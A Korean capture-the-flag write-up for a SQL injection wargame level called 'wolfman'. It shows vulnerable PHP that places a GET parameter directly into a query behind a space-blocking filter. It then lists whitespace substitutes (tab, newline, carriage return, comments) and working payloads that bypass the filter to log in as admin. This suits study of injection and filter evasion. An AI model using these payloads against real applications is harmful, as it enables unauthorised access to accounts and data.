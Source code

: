 # WOLFMAN

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## Background Knowledge
* SQL 쿼리문에서 ` `(space) 띄어쓰기를 대체할 수 있는 것들.
	- Tab(`\t`) : `%09`
		- `'%09or%09id='admin'`
	- Line Feed (`\n`): `%0a`
		- `'%0aor%0aid='admin'`
	- Carriage Return(`\r`) : `%0d`
		- `'%0dor%0did='admin'`
	- 주석 : `/**/`
		- `'/**/or/**/id='admin'`
	- 괄호 : `()`
		- `or(id='admin')`
	- 더하기 : `+`
		- `or+id='admin'`

## Inspection
* `if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");`
	- 다른 테이블을 건들지 않도록 걸러진다.
* `if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); `
	- **space 띄어쓰기가 걸러진다.**
* `select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'`
	- 파라미터로 `pw`가 넘겨진다.

## Solution
* 띄어쓰기를 Tab이나 Carrige Return으로 대체한다.
	- `'%09or%09id='admin'%09--%09`
	- `'%0dor%0did='admin'%0d--%0d`

## Review
* [Webhacking.kr prob18](https://github.com/r4k0nb4k0n/Wargame-Challenges/tree/master/Webhacking.kr/prob18)이 생각나는 문제였다.
* Line Feed, 주석, 괄호는 쿼리문은 먹지만 통과하지 않는다.
* 더하기는 띄어쓰기로 걸러진다.